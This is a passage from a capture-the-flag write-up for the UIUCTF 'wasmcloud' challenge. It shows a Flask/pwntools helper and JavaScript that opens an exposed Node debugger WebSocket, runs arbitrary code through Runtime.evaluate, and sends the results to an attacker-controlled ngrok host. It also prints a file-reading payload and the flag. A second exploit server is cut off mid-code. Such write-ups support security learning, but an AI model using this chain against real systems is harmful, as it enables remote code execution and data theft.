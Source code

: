 ```python
    uuid = r.recv(1024).decode().split(" ")[-4].split("\n")[0]
    # Im lazy
    return uuid

@app.route("/")
@cross_origin()
def hello_world():
    return make_r()

app.run(port=8080)
```

And the corresponding js:
```js
async function g(){
    let a;
    await fetch(`http://server.ngrok.io/`).then(r=>r.text()).then(d=>{a=d});
    console.log(a);
    let s = new WebSocket(a);
    s.onopen = function() {
        data = `(eval payload)`;
        s.send(JSON.stringify({'id':1,'method':'Runtime.evaluate','params':{'expression': data}}));
    };
    s.onmessage = function (event) {
        fetch(`http://server.ngrok.io/?`+btoa(event.data));
    };
};
g();
```

I run this and get... a ulimit error from spawning a child. Great. After changing the payload and resubmitting the captcha few times, we get the flag with `require = process.mainModule.require;fs = require('fs');fs.readFileSync('flag.txt').toString();`:

`uiuctf{https://youtu.be/17ocaZb-bGg}`

## Things after solving
The XSS bug was actually completely unneccessary because wasm does not have the concept of a same origin policy, so we could have send the admin to our server and have that return the script too - here's a sample server that does that:

```python
from flask import Flask
import requests
import http.client
from pwn import *
from flask_cors import CORS, cross_origin
app = Flask(__name__)
cors = CORS(app)
app.config['CORS_HEADERS'] = 'Content-Type'

def make_r():
    print("make_r: hi")
    r = remote("wasmcloud.chal.uiuc.tf", 80)
    r.sendline(b"GET /run/a9323890b8db4c5a.wasm HTTP/1.1\r\n")
    uuid = r.recv(1024).decode().split(" ")[-4].split("\n")[0]
    return uuid

@app.route("/")
@cross_origin()
def hello_world():
    uuid = make_r()
    s = """<!DOCTYPE html><script>
async function g(){
    let s = new WebSocket("%s");
```